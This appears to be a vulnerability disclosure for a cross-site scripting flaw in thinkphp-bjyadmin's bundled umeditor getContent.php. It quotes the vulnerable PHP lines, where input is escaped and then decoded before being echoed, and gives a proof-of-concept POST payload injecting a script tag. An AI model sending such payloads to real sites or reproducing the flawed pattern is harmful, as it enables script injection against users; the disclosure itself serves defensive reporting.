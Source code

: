 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/getContent.php

```php
...
$content =  htmlspecialchars($_POST['myEditor']);		// Line 9
...
echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>"; // Line 14
```


We see that there is no check between the input  $_POST["myEditor"] and the output(Line 9)

Thus the XSS will happen at `echo  "<div class='content'>".htmlspecialchars_decode($content)."</div>";`

Poc:

POST /Public/statics/umeditor1_2_3/php/getContent.php 

`myEditor=</div><script>alert('xss')</script>`

Manual verification:

![alt text](1.png)

![alt text](2.png)


The developers were informed of the report in here : https://github.com/baijunyao/laravel-restful/issues/3